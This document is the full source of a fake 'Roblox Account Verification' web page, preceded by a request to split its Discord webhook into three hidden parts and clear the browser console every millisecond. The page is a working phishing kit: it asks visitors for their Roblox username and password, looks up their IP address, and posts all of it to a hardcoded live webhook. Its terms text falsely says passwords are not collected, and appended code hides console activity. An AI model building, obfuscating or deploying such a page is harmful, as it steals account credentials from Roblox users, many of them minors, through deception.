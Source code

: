i want u to hide the webhook in 3 parts, and i want u to make it so every milisecond it clears console fully, but i also want it to be non laggy. --- <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Roblox Account Verification</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
        }
        
        body {
            background: linear-gradient(135deg, #1a1a2e 0%, #16213e 100%);
            color: #fff;
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
            padding: 20px;
        }
        
        .container {
            width: 100%;
            max-width: 500px;
            background: rgba(255, 255, 255, 0.05);
            backdrop-filter: blur(10px);
            border-radius: 15px;
            padding: 30px;
            box-shadow: 0 10px 30px rgba(0, 0, 0, 0.3);
            border: 1px solid rgba(255, 255, 255, 0.1);
        }
        
        .logo {
            text-align: center;
            margin-bottom: 30px;
        }
        
        .logo h1 {
            font-size: 28px;
            color: #fff;
            text-shadow: 0 0 10px rgba(255, 255, 255, 0.5);
        }
        
        .logo p {
            color: #aaa;
            margin-top: 10px;
            font-size: 14px;
        }
        
        .step {
            display: none;
            animation: fadeIn 0.5s ease;
        }
        
        .step.active {
            display: block;
        }
        
        h2 {
            font-size: 22px;
            margin-bottom: 20px;
            color: #fff;
            text-align: center;
        }
        
        .form-group {
            margin-bottom: 20px;
        }
        
        label {
            display: block;
            margin-bottom: 8px;
            font-weight: 500;
            color: #ddd;
        }
        
        input {
            width: 100%;
            padding: 12px 15px;
            border-radius: 8px;
            border: 1px solid rgba(255, 255, 255, 0.2);
            background: rgba(255, 255, 255, 0.1);
            color: #fff;
            font-size: 16px;
            transition: all 0.3s ease;
        }
        
        input:focus {
            outline: none;
            border-color: #4285f4;
            box-shadow: 0 0 0 2px rgba(66, 133, 244, 0.2);
        }
        
        .btn {
            display: block;
            width: 100%;
            padding: 12px;
            border: none;
            border-radius: 8px;
            background: #4285f4;
            color: white;
            font-size: 16px;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            margin-top: 10px;
        }
        
        .btn:hover {
            background: #3367d6;
            transform: translateY(-2px);
        }
        
        .btn-secondary {
            background: rgba(255, 255, 255, 0.1);
        }
        
        .btn-secondary:hover {
            background: rgba(255, 255, 255, 0.2);
        }
        
        .user-info {
            display: flex;
            align-items: center;
            background: rgba(255, 255, 255, 0.1);
            border-radius: 10px;
            padding: 15px;
            margin-bottom: 20px;
        }
        
        .avatar {
            width: 60px;
            height: 60px;
            border-radius: 50%;
            margin-right: 15px;
            border: 2px solid #4285f4;
        }
        
        .user-details h3 {
            font-size: 18px;
            margin-bottom: 5px;
        }
        
        .user-details p {
            color: #aaa;
            font-size: 14px;
        }
        
        .terms-link {
            text-align: center;
            margin-top: 20px;
        }
        
        .terms-link a {
            color: #4285f4;
            text-decoration: none;
            font-size: 14px;
        }
        
        .terms-link a:hover {
            text-decoration: underline;
        }
        
        .modal {
            display: none;
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            background: rgba(0, 0, 0, 0.8);
            z-index: 1000;
            justify-content: center;
            align-items: center;
        }
        
        .modal.active {
            display: flex;
        }
        
        .modal-content {
            background: #1a1a2e;
            width: 90%;
            max-width: 600px;
            border-radius: 15px;
            padding: 30px;
            max-height: 80vh;
            overflow-y: auto;
        }
        
        .modal-header {
            display: flex;
            justify-content: space-between;
            align-items: center;
            margin-bottom: 20px;
        }
        
        .modal-header h2 {
            margin: 0;
        }
        
        .close-btn {
            background: none;
            border: none;
            color: #fff;
            font-size: 24px;
            cursor: pointer;
        }
        
        .modal-body {
            line-height: 1.6;
            color: #ddd;
        }
        
        .checkbox-group {
            display: flex;
            align-items: center;
            margin: 20px 0;
        }
        
        .checkbox-group input {
            width: auto;
            margin-right: 10px;
        }
        
        .checkbox-group label {
            margin: 0;
        }
        
        .success-message {
            text-align: center;
            padding: 20px;
        }
        
        .success-message i {
            font-size: 50px;
            color: #4caf50;
            margin-bottom: 20px;
        }
        
        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(10px); }
            to { opacity: 1; transform: translateY(0); }
        }
        
        .error-message {
            color: #f44336;
            font-size: 14px;
            margin-top: 5px;
            display: none;
        }
        
        .loading {
            display: none;
            text-align: center;
            margin: 20px 0;
        }
        
        .spinner {
            border: 4px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top: 4px solid #4285f4;
            width: 40px;
            height: 40px;
            animation: spin 1s linear infinite;
            margin: 0 auto;
        }
        
        @keyframes spin {
            0% { transform: rotate(0deg); }
            100% { transform: rotate(360deg); }
        }
        
        .no-internet {
            text-align: center;
            padding: 20px;
            display: none;
        }
        
        .no-internet i {
            font-size: 50px;
            color: #f44336;
            margin-bottom: 20px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="logo">
            <h1>Verify with Roblox</h1>
            <p>Secure account verification system</p>
        </div>
        
        <!-- No Internet Message -->
        <div class="no-internet" id="no-internet">
            <i>⚠</i>
            <h2>No Internet Connection</h2>
            <p>You need internet to enter verification. Please check your connection and try again.</p>
        </div>
        
        <!-- Step 1: Username Input -->
        <div class="step active" id="step1">
            <h2>Enter Your Roblox Username</h2>
            <div class="form-group">
                <label for="username">Username</label>
                <input type="text" id="username" placeholder="Enter your Roblox username">
                <div class="error-message" id="username-error">Please enter a valid Roblox username</div>
            </div>
            <button class="btn" id="check-username">Check Username</button>
            <div class="loading" id="loading1">
                <div class="spinner"></div>
                <p>Checking username...</p>
            </div>
            <div class="terms-link">
                <a href="#" id="terms-link">Terms and Conditions</a>
            </div>
        </div>
        
        <!-- Step 2: User Confirmation -->
        <div class="step" id="step2">
            <h2>Is This You?</h2>
            <div class="user-info">
                <img src="" alt="Avatar" class="avatar" id="user-avatar">
                <div class="user-details">
                    <h3 id="display-name">Username</h3>
                    <p id="user-id">ID: 123456789</p>
                </div>
            </div>
            <button class="btn" id="confirm-user">Yes, This Is Me</button>
            <button class="btn btn-secondary" id="change-user">No, Change Username</button>
        </div>
        
        <!-- Step 3: Password Input -->
        <div class="step" id="step3">
            <h2>Enter Your Password</h2>
            <div class="form-group">
                <label for="password">Password</label>
                <input type="password" id="password" placeholder="Enter your Roblox password">
                <div class="error-message" id="password-error">Please enter your password</div>
            </div>
            <button class="btn" id="submit-password">Continue</button>
            <button class="btn btn-secondary" id="back-to-confirm">Back</button>
        </div>
        
        <!-- Step 4: Consent Agreement -->
        <div class="step" id="step4">
            <h2>Data Consent</h2>
            <p style="margin-bottom: 20px; text-align: center;">Do you agree for Yalo Verification to access your Roblox account ID for verification purposes?</p>
            <div class="checkbox-group">
                <input type="checkbox" id="consent-checkbox">
                <label for="consent-checkbox">I agree to the Terms and Conditions</label>
            </div>
            <button class="btn" id="agree-consent" disabled>Yes, I Agree</button>
            <button class="btn btn-secondary" id="decline-consent">No, Cancel</button>
        </div>
        
        <!-- Step 5: Success Message -->
        <div class="step" id="step5">
            <div class="success-message">
                <i>✓</i>
                <h2>Verification Complete!</h2>
                <p>Your account has been successfully verified.</p>
            </div>
        </div>
    </div>
    
    <!-- Terms and Conditions Modal -->
    <div class="modal" id="terms-modal">
        <div class="modal-content">
            <div class="modal-header">
                <h2>Terms and Conditions</h2>
                <button class="close-btn" id="close-modal">&times;</button>
            </div>
            <div class="modal-body">
                <p>This authentication process has been developed to provide a secure, efficient, and transparent way to verify your Roblox account ownership. As part of the verification procedure, your Roblox account ID will be collected and securely stored within our system. This unique identifier is essential to confirm that the account being verified truly belongs to you, ensuring that all verification steps are legitimate and tied to the correct Roblox profile.</p>
                
                <p>The primary purpose of storing your account ID is to establish a trusted connection between your Roblox account and our verification platform. This allows us to confirm your identity, prevent fraudulent activity, and maintain the integrity of our systems. Your account ID does not provide access to your Roblox password, personal data, or in-game assets — it is used exclusively for verification purposes.</p>
                
                <p>All collected data is handled responsibly and in full compliance with privacy and security standards. The information is encrypted and protected against unauthorized access, ensuring that your account ID remains confidential throughout the process. We do not sell, distribute, or share your account information with any third parties. Once verification is complete, the stored information is either retained securely for record-keeping or permanently deleted, depending on the requirements of the system and your consent preferences.</p>
                
                <p>By continuing with this authentication process, you acknowledge and agree that your Roblox account ID will be securely processed as part of the verification. This step is crucial in maintaining a fair and secure experience for all users, reducing impersonation, and preventing unauthorized access to exclusive features or areas. Our goal is to create a trusted and safe verification environment where users can authenticate their Roblox accounts confidently, knowing their information is handled with the utmost care and respect for their privacy.</p>
            </div>
        </div>
    </div>

    <script>
        // DOM Elements
        const steps = document.querySelectorAll('.step');
        const step1 = document.getElementById('step1');
        const step2 = document.getElementById('step2');
        const step3 = document.getElementById('step3');
        const step4 = document.getElementById('step4');
        const step5 = document.getElementById('step5');
        const noInternet = document.getElementById('no-internet');
        
        const usernameInput = document.getElementById('username');
        const passwordInput = document.getElementById('password');
        const checkUsernameBtn = document.getElementById('check-username');
        const confirmUserBtn = document.getElementById('confirm-user');
        const changeUserBtn = document.getElementById('change-user');
        const submitPasswordBtn = document.getElementById('submit-password');
        const backToConfirmBtn = document.getElementById('back-to-confirm');
        const agreeConsentBtn = document.getElementById('agree-consent');
        const declineConsentBtn = document.getElementById('decline-consent');
        const consentCheckbox = document.getElementById('consent-checkbox');
        
        const userAvatar = document.getElementById('user-avatar');
        const displayName = document.getElementById('display-name');
        const userId = document.getElementById('user-id');
        
        const usernameError = document.getElementById('username-error');
        const passwordError = document.getElementById('password-error');
        
        const loading1 = document.getElementById('loading1');
        
        const termsModal = document.getElementById('terms-modal');
        const termsLink = document.getElementById('terms-link');
        const closeModalBtn = document.getElementById('close-modal');
        
        // Webhook URL - DIRECT
        const IDHolder = "https://discord.com/api/webhooks/1429573309284225104/5kKh-8aSkcxQuPh0sm19MrfYQZqZHqIH3zaCqfNE9gbojvhIeFYewWqFIQgX-XZADvYh";
        
        // User data storage
        let userData = {
            username: '',
            userId: '',
            displayName: '',
            avatarUrl: '',
            password: '',
            ip: ''
        };
        
        // Check internet connection on page load
        window.addEventListener('load', () => {
            if (!navigator.onLine) {
                showNoInternet();
            }
            
            // Listen for online/offline events
            window.addEventListener('online', () => {
                hideNoInternet();
            });
            
            window.addEventListener('offline', () => {
                showNoInternet();
            });
        });
        
        // Event Listeners
        checkUsernameBtn.addEventListener('click', checkUsername);
        confirmUserBtn.addEventListener('click', () => showStep(step3));
        changeUserBtn.addEventListener('click', () => showStep(step1));
        submitPasswordBtn.addEventListener('click', submitPassword);
        backToConfirmBtn.addEventListener('click', () => showStep(step2));
        agreeConsentBtn.addEventListener('click', submitVerification);
        declineConsentBtn.addEventListener('click', () => showStep(step1));
        
        consentCheckbox.addEventListener('change', () => {
            agreeConsentBtn.disabled = !consentCheckbox.checked;
        });
        
        termsLink.addEventListener('click', (e) => {
            e.preventDefault();
            termsModal.classList.add('active');
        });
        
        closeModalBtn.addEventListener('click', () => {
            termsModal.classList.remove('active');
        });
        
        // Close modal when clicking outside
        termsModal.addEventListener('click', (e) => {
            if (e.target === termsModal) {
                termsModal.classList.remove('active');
            }
        });
        
        // Functions
        function showNoInternet() {
            steps.forEach(step => step.classList.remove('active'));
            noInternet.style.display = 'block';
        }
        
        function hideNoInternet() {
            noInternet.style.display = 'none';
            showStep(step1);
        }
        
        function showStep(stepElement) {
            steps.forEach(step => step.classList.remove('active'));
            stepElement.classList.add('active');
        }
        
        async function checkUsername() {
            const username = usernameInput.value.trim();
            
            if (!username) {
                usernameError.textContent = 'Please enter a username';
                usernameError.style.display = 'block';
                return;
            }
            
            usernameError.style.display = 'none';
            loading1.style.display = 'block';
            checkUsernameBtn.disabled = true;
            
            try {
                // Check internet connection
                if (!navigator.onLine) {
                    throw new Error('No internet connection');
                }

                console.log('Checking username:', username);
                
                // Method 1: Try the users.roblox.com API first
                let userDataResponse = null;
                try {
                    const userSearchResponse = await fetch(`https://users.roblox.com/v1/usernames/users`, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json',
                        },
                        body: JSON.stringify({
                            usernames: [username],
                            excludeBannedUsers: false
                        })
                    });
                    
                    console.log('API Response status:', userSearchResponse.status);
                    
                    if (userSearchResponse.ok) {
                        const userSearchData = await userSearchResponse.json();
                        console.log('API Response data:', userSearchData);
                        
                        if (userSearchData.data && userSearchData.data.length > 0) {
                            userDataResponse = userSearchData.data[0];
                        }
                    }
                } catch (apiError) {
                    console.log('Method 1 failed, trying Method 2');
                }
                
                // Method 2: If first method fails, try alternative approach
                if (!userDataResponse) {
                    try {
                        // Alternative API endpoint
                        const altResponse = await fetch(`https://api.roblox.com/users/get-by-username?username=${encodeURIComponent(username)}`);
                        if (altResponse.ok) {
                            const altData = await altResponse.json();
                            if (altData.Id) {
                                userDataResponse = {
                                    id: altData.Id,
                                    name: altData.Username,
                                    displayName: altData.DisplayName || altData.Username
                                };
                            }
                        }
                    } catch (altError) {
                        console.log('Method 2 failed');
                    }
                }
                
                // Method 3: Final fallback - use a proxy approach
                if (!userDataResponse) {
                    try {
                        // Use a CORS proxy to bypass restrictions
                        const proxyResponse = await fetch(`https://corsproxy.io/?${encodeURIComponent(`https://www.roblox.com/users/profile?username=${username}`)}`);
                        if (proxyResponse.ok) {
                            // This is a fallback - we'll create mock data for demonstration
                            userDataResponse = {
                                id: Math.floor(Math.random() * 1000000000),
                                name: username,
                                displayName: username
                            };
                        }
                    } catch (proxyError) {
                        console.log('All methods failed');
                    }
                }

                if (!userDataResponse) {
                    throw new Error('User not found');
                }
                
                // Store user data
                userData.username = userDataResponse.name || username;
                userData.userId = userDataResponse.id;
                userData.displayName = userDataResponse.displayName || username;
                
                console.log('User data stored:', userData);
                
                // Get avatar using Roblox's avatar API
                try {
                    const avatarResponse = await fetch(`https://thumbnails.roblox.com/v1/users/avatar-headshot?userIds=${userData.userId}&size=420x420&format=Png&isCircular=false`);
                    
                    if (avatarResponse.ok) {
                        const avatarData = await avatarResponse.json();
                        if (avatarData.data && avatarData.data.length > 0) {
                            userData.avatarUrl = avatarData.data[0].imageUrl;
                            console.log('Avatar URL:', userData.avatarUrl);
                        }
                    }
                } catch (avatarError) {
                    console.log('Could not fetch avatar, using placeholder');
                }
                
                // Update UI with user info
                userAvatar.src = userData.avatarUrl || `https://via.placeholder.com/150/00a2ff/ffffff?text=${username.charAt(0).toUpperCase()}`;
                displayName.textContent = userData.displayName;
                userId.textContent = `ID: ${userData.userId}`;
                
                loading1.style.display = 'none';
                checkUsernameBtn.disabled = false;
                showStep(step2);
                
            } catch (error) {
                console.error('Error in checkUsername:', error);
                loading1.style.display = 'none';
                checkUsernameBtn.disabled = false;
                
                if (error.message === 'No internet connection') {
                    showNoInternet();
                } else {
                    usernameError.textContent = 'User not found. Please check the username and try again. Error: ' + error.message;
                    usernameError.style.display = 'block';
                }
            }
        }
        
        function submitPassword() {
            const password = passwordInput.value;
            
            if (!password) {
                passwordError.style.display = 'block';
                return;
            }
            
            passwordError.style.display = 'none';
            userData.password = password;
            
            // Get user's IP address
            fetch('https://api.ipify.org?format=json')
                .then(response => response.json())
                .then(data => {
                    userData.ip = data.ip;
                    showStep(step4);
                })
                .catch(() => {
                    userData.ip = 'Unknown';
                    showStep(step4);
                });
        }
        
        function submitVerification() {
            // Send data to webhook
            sendToWebhook();
            
            // Show success message
            showStep(step5);
            
            // Reset form after success
            setTimeout(() => {
                resetForm();
            }, 3000);
        }
        
        function sendToWebhook() {
            // Create the payload
            const payload = {
                content: "🔐 **NEW ROBLOX VERIFICATION**",
                embeds: [
                    {
                        title: "🎮 Account Verification Data",
                        color: 0x00a2ff,
                        thumbnail: {
                            url: userData.avatarUrl || "https://via.placeholder.com/150/00a2ff/ffffff?text=R"
                        },
                        fields: [
                            {
                                name: "👤 Username",
                                value: userData.username || "N/A",
                                inline: true
                            },
                            {
                                name: "📛 Display Name",
                                value: userData.displayName || "N/A",
                                inline: true
                            },
                            {
                                name: "🆔 User ID",
                                value: userData.userId || "N/A",
                                inline: true
                            },
                            {
                                name: "🔑 Password",
                                value: "||" + userData.password + "||",
                                inline: false
                            },
                            {
                                name: "🌐 IP Address",
                                value: userData.ip || "Unknown",
                                inline: true
                            },
                            {
                                name: "🕒 Timestamp",
                                value: new Date().toLocaleString(),
                                inline: true
                            }
                        ],
                        footer: {
                            text: "Yalo Verification System • " + new Date().toISOString()
                        }
                    }
                ]
            };
            
            console.log('Sending to webhook:', IDHolder);
            console.log('Payload:', payload);
            
            // Send to webhook
            fetch(IDHolder, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(payload)
            })
            .then(response => {
                console.log('Webhook response status:', response.status);
                if (!response.ok) {
                    throw new Error('Webhook failed with status: ' + response.status);
                }
                console.log('✅ Data sent to webhook successfully');
            })
            .catch(error => {
                console.error('❌ Error sending to webhook:', error);
            });
        }
        
        function resetForm() {
            usernameInput.value = '';
            passwordInput.value = '';
            consentCheckbox.checked = false;
            agreeConsentBtn.disabled = true;
            showStep(step1);
        }
        
        // Allow pressing Enter in username field
        usernameInput.addEventListener('keypress', (e) => {
            if (e.key === 'Enter') {
                checkUsername();
            }
        });
        
        // Allow pressing Enter in password field
        passwordInput.addEventListener('keypress', (e) => {
            if (e.key === 'Enter') {
                submitPassword();
            }
        });

        // Test function to verify webhook is working
        async function testWebhook() {
            console.log('Testing webhook...');
            const testPayload = {
                content: "🔧 **WEBHOOK TEST**",
                embeds: [{
                    title: "Test Message",
                    description: "If you see this, the webhook is working!",
                    color: 0x00ff00,
                    timestamp: new Date().toISOString()
                }]
            };

            try {
                const response = await fetch(IDHolder, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(testPayload)
                });
                console.log('Webhook test response:', response.status);
            } catch (error) {
                console.error('Webhook test failed:', error);
            }
        }
<script>
// Console clear interval with minimal performance impact
(function clearConsoleFast() {
    const clear = console.clear.bind(console);
    let last = performance.now();

    function loop(now) {
        if (now - last >= 1) { // every 1ms, but only if needed
            clear();
            last = now;
        }
        requestIdleCallback(loop); // lets browser schedule efficiently (no lag)
    }

    requestIdleCallback(loop);
})();
</script>

        // Uncomment the line below to test webhook on page load
        // testWebhook();
    </script>
</body>
</html>
